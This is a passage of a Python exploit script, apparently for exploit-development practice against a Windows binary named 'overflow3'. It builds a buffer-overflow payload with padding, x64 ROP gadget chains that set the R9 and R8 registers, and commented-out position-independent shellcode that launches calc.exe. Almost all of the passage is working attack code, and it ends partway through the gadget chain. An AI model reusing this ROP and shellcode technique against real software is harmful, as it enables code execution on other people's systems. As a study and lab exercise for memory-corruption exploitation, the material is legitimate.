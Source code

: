 ```python
    else:
        print(f"[-] Could not retrieve base address for {process_name}.")
else:
    print(f"[-] Process {process_name} not found.")


payload = b"\x41" * 296 # padding/junk


#original, decoded shellcode for referencing
#############################################

#shellcode =  b"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b"
#shellcode += b"\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89"
#shellcode += b"\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9"
#shellcode += b"\x08\x8b\x14\x0b\x4c\x01\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20"
#shellcode += b"\x4d\x01\xc3\x4c\x89\xd1\x48\xb8\x57\x69\x6e\x45\x78\x65\x63\x90\x48\xc1"
#shellcode += b"\xe0\x08\x48\xc1\xe8\x08\x50\x48\x89\xe0\x48\x83\xc4\x08\x67\xe3\x17\x31"
#shellcode += b"\xdb\x41\x8b\x5c\x8b\x04\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c\x39\x0b"
#shellcode += b"\x74\x03\x75\xe6\xcc\x51\x41\x5f\x4c\x89\xf9\x4d\x31\xdb\x44\x8b\x5a\x24"
#shellcode += b"\x4d\x01\xc3\x48\xff\xc1\x66\x45\x8b\x2c\x4b\x4d\x31\xdb\x44\x8b\x5a\x1c"
#shellcode += b"\x4d\x01\xc3\x43\x8b\x44\xab\x04\x4c\x01\xc0\x50\x41\x5f\x48\x31\xc0\x50"
#shellcode += b"\x48\xb8\x63\x61\x6c\x63\x2e\x65\x78\x65\x50\x48\x89\xe1\x48\x31\xd2\x48"
#shellcode += b"\xff\xc2\x48\x83\xec\x30\x41\xff\xd7"
#calc shellcode no nulls (207 bytes)

#rop gadgets for setting the R9 register value
###################################

payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
payload += struct.pack("<Q", base_addr+0x0018)  # 0x40
payload += struct.pack("<Q", base_addr+0x7678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", base_addr+0x1b58)  # push rax; pop rbx; pop rsi; pop rdi; ret;
payload += b"\x90" * 16 
payload += struct.pack("<Q", base_addr+0x7CA5)  # mov r9, rbx <see more below>

"""
00000007CA5 | 49:89D9                  | mov r9,rbx                           |
00000007CA8 | E8 D3FCFFFF              | call overflow3.7980             |
00000007CAD | 48:98                    | cdqe                                 |
00000007CAF | 48:83C4 48               | add rsp,48                           |
00000007CB3 | 5B                       | pop rbx                              |
00000007CB4 | 5E                       | pop rsi                              |
00000007CB5 | 5F                       | pop rdi                              | 
00000007CB6 | 5D                       | pop rbp                              |
00000007CB7 | C3                       | ret                                  |
"""
payload += b"\x90" * 72 
payload += b"\x90" * 32 

#r9 register should now hold the value 0x40 (I hate this register)
###########################################

#r8 ROP gadgets (this works but RDX MUST be 0x3000)

payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
payload += struct.pack("<Q", base_addr+0x95AC)  # place 3000 on stack --> 0x000000095AC = 0x3000
payload += struct.pack("<Q", base_addr+0x7678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", base_addr+0x6995)  # 0x00000006995: add edx, eax; mov eax, edx; ret; 

payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
payload += struct.pack("<Q", base_addr+0x95A0)  # place 3000 - 0xC on stack 

```